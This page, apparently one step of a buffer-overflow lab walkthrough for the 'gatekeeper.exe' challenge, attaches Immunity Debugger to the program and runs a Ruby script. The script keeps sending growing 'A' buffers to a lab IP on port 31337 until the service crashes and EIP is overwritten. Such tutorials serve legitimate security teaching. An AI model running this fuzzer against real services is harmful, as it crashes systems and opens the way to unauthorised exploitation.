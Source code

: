 Let's start the Immunity Debugger as an admin and the vulnerable program "gatekeeper.exe" and then attach the program to the Immunity Debugger:

![Start_ImmunityDebugger](start_ImmunityDebugger.png) 

Then click the start button:

![Start_Program](start_Program.png)

Let's go back to our Kali machine and run our first Ruby template
```Ruby
require 'socket'

buff = "A" * 100
RHOST = "192.168.0.227"
RPORT = 31337

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
When we look at our Windows VM, we'll see that the program crashed and we wrote EIP with 4 As (41 is the hex value of A). Once we see that EIP is overwritten, we can go back to our Kali machine and stop running our Ruby spiking script:

![Python_Spiking](runRubySpiking.png)

![Python_EIP](PythonoverwroteEIP.png)

![Python_StopSpiking](stopRubyspiking.png)

We can see that the program crashed at 500 bytes. We'll use this information to find the offset in the next step.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
